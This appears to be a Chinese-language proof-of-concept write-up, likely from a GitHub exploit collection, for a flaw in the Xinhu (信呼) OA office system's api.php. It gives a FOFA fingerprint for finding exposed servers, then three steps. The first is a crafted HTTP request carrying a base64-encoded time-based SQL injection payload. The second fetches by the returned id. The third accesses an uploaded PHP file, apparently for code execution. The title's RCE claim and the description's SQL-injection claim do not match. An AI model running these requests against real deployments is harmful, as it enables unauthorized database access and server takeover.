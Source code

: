 # 信呼OA办公系统后台api.php接口存在RCE

信呼OA办公系统是一个开源的在线办公系统。 信呼OA办公系统uploadAction存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## fofa

```java
icon_hash="1652488516"
```

## 第一步

```javascript
GET /xhoa/api.php?a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw== HTTP/1.1  
Host:  
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"  
Sec-Fetch-Dest: empty  
Accept: application/json, text/javascript, */*; q=0.01  
Referer: http://127.0.0.1:81/xhoa/  
Cookie:   
Sec-Fetch-Mode: cors  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36  
Accept-Encoding: gzip, deflate, br, zstd  
Sec-Fetch-Site: same-origin  
Accept-Language: zh-CN,zh;q=0.9  
X-Requested-With: XMLHttpRequest  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
```

![image](https://github.com/user-attachments/assets/0f95005f-8c4f-45a0-bed2-eba493c7b87a)

## 第二步

```javascript
访问：http://xxxx/api.php?a=getmfilv&m=upload|api&d=task&fileid=返回的id值
```

![image](https://github.com/user-attachments/assets/ba6f7a2e-8c59-4c08-a87f-8f778d2ee1c4)

## 第三步
```
通过前面第二部获取的地址直接访问即可
http://localhost/upload/2025-03/26_rocktpl5661_1363.php
```

